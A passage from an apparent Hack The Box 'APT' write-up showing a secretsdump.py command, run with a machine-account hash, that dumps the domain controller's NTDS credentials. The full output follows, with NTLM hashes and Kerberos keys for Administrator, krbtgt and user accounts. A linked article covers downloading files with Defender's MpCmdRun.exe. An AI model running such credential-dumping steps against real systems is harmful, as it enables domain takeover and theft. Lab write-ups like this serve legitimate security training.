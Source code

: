 I received an email back from their server very quickly. It only took 32 seconds to find the hash in the rainbow table. Now I just needed to figure out how to use the machine account hash so I did some more research.

* [http://blog.carnal0wnage.com/2015/09/domain-controller-machine-account-to.html](http://blog.carnal0wnage.com/2015/09/domain-controller-machine-account-to.html)
* [https://winaero.com/beware-microsoft-defender-mpcmdrun-exe-tool-can-be-used-to-download-files/](https://winaero.com/beware-microsoft-defender-mpcmdrun-exe-tool-can-be-used-to-download-files/)

> `python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc LAB/DC2k8_1\$@172.16.102.15`

I found an article that explained how to format a query using `secretsdump.py` to dump the remote NTDS database.  This time it would be the live database and not the backup I had retrieved earlier.

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ python3 /home/zweilos/.local/bin/secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798 -just-dc HTB/APT\$@apt.htb.local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
[*] Cleaning up...
```

Using the template from the blog I was able to dump the hashes from the machine. There were not nearly as many accounts as in the backup!  Now that I had the Administrator hash, it was time to crack it.
